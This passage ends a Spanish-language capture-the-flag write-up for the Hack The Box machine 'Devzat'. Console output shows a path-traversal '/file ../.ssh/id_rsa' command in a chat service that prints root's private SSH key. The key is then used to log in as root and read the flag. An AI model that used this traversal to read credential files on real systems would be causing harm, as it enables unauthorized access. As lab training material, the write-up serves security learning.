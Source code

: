 ```console
                                                                                                                                                                                10 minutes in
catherine: /file ../.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] -----BEGIN OPENSSH PRIVATE KEY-----
[SYSTEM] b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
[SYSTEM] QyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqAAAAJiUCzUclAs1
[SYSTEM] HAAAAAtzc2gtZWQyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqA
[SYSTEM] AAAECtFKzlEg5E6446RxdDKxslb4Cmd2fsqfPPOffYNOP20d+v8nnFgciadUghCpQomz7s
[SYSTEM] Q0ekw7ZzIOJu9Fn+tsKoAAAAD3Jvb3RAZGV2emF0Lmh0YgECAwQFBg==
[SYSTEM] -----END OPENSSH PRIVATE KEY-----
catherine: Connection to devzat.htb closed.
```

Con esta información podemos crear un archivo **`devzatkey`** al cual le damos permisos con **`chmod 600 devzatkey`** y ya podemos conectarnos por SSH.

```console
p3ntest1ng:~$ ssh -i devzatkey root@devzat.htb
root@devzat:~# ls
devzat  go  root.txt
root@devzat:~# cat root.txt
e1b8707c938e4fb49bce2a4023bc8b53
root@devzat:~# 
```

### ¡Gracias por leer hasta el final!

Esta máquina me ha gustado mucho porque se tocan varias técnicas y me ha servido para aprender algo nuevo, ya que no conocía InfluxDB.

#### Nos vemos en un próximo. ¡Feliz hacking! ☠